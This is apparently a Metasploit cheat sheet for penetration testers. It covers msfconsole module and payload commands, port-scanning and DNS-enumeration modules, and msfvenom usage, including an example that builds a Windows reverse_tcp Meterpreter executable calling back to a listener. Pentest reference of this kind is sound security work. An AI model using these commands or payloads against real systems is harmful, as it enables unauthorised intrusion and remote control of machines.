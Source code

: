 # Metasploit Cheat Sheet

***
Metasploit Project is a computer security project which provide information about vulnerabilities. Help in the development of penetration tests and IDS signatures, metasploit is very popular tool used by pentest experts.

### Metasploit :

- ###### Search for module:

```
msf > search [regex]
```

- ###### Specify and exploit to use:

```
msf > use exploit/[ExploitPath]
```

- ###### Specify a Payload to use:

```
msf > set PAYLOAD [PayloadPath]
```

- ###### Show options for the current modules:

```
msf > show options
```

- ###### Set options:

```
msf > set [Option] [Value]
```

- ###### Start exploit:

```
msf > exploit 
```
***

### Useful Auxiliary Modules


- ###### Port Scanner:

```
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.10.0/24
msf > run
```

- ###### DNS Enumeration:

```
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

- ###### FTP Server:

```
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

- ###### Proxy Server:

```
msf > use auxiliary/server/socks4
msf > run 
```
***

# msfvenom :

msfvenom this is tool can be used to generate Metasploit payloads as standalone files and optionally encode them. This tool replaces `msfpayload` and `msfencode` tools. Run with ‘'-l payloads’ to get a list of payloads.

```
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```


- ##### Example: Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=192.168.1.1
LPORT=4444 > met.exe
```

- [ ] - Format Options (specified with –f) --help-formats – List available output formats

- `-exe` – Executable
- `-pl` – Perl
- `-rb` – Ruby
- `-raw` – Raw shellcode
- `-c` – C code
